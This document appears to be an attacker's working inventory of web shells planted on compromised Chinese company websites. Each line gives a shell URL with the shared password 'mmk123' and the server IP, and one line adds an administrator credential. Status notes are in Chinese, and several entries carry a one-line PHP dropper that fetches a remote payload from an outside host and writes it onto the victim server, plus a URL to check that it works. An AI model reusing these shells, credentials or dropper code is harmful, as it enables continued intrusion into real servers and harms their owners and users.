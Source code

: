 https://utmachines.com/skin/js/2m12.php |mmk123 |  150.109.70.87 | 连接不上

https://ru.gearbox-world.com/Qiniu/2m12.php |mmk123 |  150.109.70.87 | 原链接打不开
https://www.taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194

https://www.huaeda.com/static/upload/image/20180413/2m12.php |mmk123 |  121.42.118.20 | 建立不了文件

http://hgkjds.cn/static/upload/image/20221024/3m.php |mmk123 |  103.96.148.48
代码更新：0608 ✅
http://hgkjds.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://hgkjds.cn/config/httpd.php?d=up

http://zktycataly.com//uploads/170311/12.asp |mmk123 |  103.56.113.2 | 连接不上

http://ehotsoft.com/uploads/160817/12.asp |mmk123 |  103.56.113.2

http://en.shanjiu.cn/static/upload/image/20230721/12.asp |mmk123 |administrator }$d3n/8Yx5FBz:L | 106.54.62.234
代码更新：0608 ✅
http://en.shanjiu.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://en.shanjiu.cn/config/httpd.php?d=up

http://fw.dkjx.cn/images/image.php |mmk123 |  106.54.62.234
代码更新：0608 ✅
http://fw.dkjx.cn/_private/httpd.php
<?php file_put_contents("../images/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fw.dkjx.cn/images/httpd.php?d=up

http://en.jinruimould.com/static/upload/image/20220101/3m.php |mmk123 |rsa | 128.1.134.225 | 连接不上
http://en.jinruimould.com/core/function/2m12.php |mmk123 |rsa | 128.1.134.225
http://e.himin.com/runtime/upgrade/core/extend/ueditor/themes/default/font/2m12.php |mmk123 |  120.27.14.20
http://epc.himin.com/e/css/images/1m12.php |mmk123 |  120.27.14.20
代码更新：0608 ✅
http://epc.himin.com/guolu/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://epc.himin.com/css/httpd.php?d=up

http://kepu.himin.com/1m12.php |mmk123 |  120.27.14.20
http://himin.com//static/upload/image/20190508/1m12.php |mmk123 |  120.27.14.20

http://ztjfcd.com/css/admin/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://ztjfcd.com/img/httpd.php
<?php file_put_contents("../css/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://ztjfcd.com/css/httpd.php?d=up
